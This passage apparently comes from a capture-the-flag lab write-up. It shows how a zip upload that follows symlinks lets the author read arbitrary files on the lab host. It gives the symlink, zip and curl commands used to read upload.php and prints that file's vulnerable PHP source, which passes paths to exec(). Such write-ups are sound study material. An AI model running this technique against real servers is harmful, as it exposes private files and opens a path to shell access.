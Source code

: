 It worked!
So the difference between the first `LFI` and the second is that the second leads us to read arbitary files on server while the first lfi in the shop allows as only to inlcude different `php` scripts which must already exists remotely.

we can read `/home/rektsu/user.txt`, but it's useless, we must btain a shell first.

Since we enumerated some `php` files, let's try to read the source code of the,

Let's start from the `upload.php`

```bash
ln -s ../../../../../../../../../../var/www/html/upload.php file.pdf
zip --symlinks poc.zip file.pdf
curl http://10.10.11.229/uploads/1e5a8fe15a778c7fe734485c474d63df/file.pdf
```

```php
            <?php                                                                                         
            if(isset($_POST['submit'])) {
              // Get the uploaded zip file
              $zipFile = $_FILES['zipFile']['tmp_name'];
              if ($_FILES["zipFile"]["size"] > 300000) {                                                  
                echo "<p>File size must be less than 300,000 bytes.</p>";
              } else {                                                                                    
                // Create an md5 hash of the zip file 
                $fileHash = md5_file($zipFile);
                // Create a new directory for the extracted files                                                                                                                                                   
                $uploadDir = "uploads/$fileHash/";                                                        
                $tmpDir = sys_get_temp_dir();                                                                                                                                                                       
                // Extract the files from the zip
                $zip = new ZipArchive;
                if ($zip->open($zipFile) === true) {
                  if ($zip->count() > 1) {
                  echo '<p>Please include a single PDF file in the archive.<p>';                                                                                                                                    
                  } else {
                  // Get the name of the compressed file
                  $fileName = $zip->getNameIndex(0);
                  if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
                    $uploadPath = $tmpDir.'/'.$uploadDir;
                    echo exec('7z e '.$zipFile. ' -o' .$uploadPath. '>/dev/null');
                    if (file_exists($uploadPath.$fileName)) {
                      mkdir($uploadDir);
                      rename($uploadPath.$fileName, $uploadDir.$fileName);
                    }
                    echo '<p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a hr
ef="'.$uploadDir.$fileName.'">'.$uploadDir.$fileName.'</a>'.'</p>';
                  } else {
                    echo "<p>The unzipped file must have  a .pdf extension.</p>";
                  }
                 }
                } else {
                  echo "Error uploading file.";
                }
```
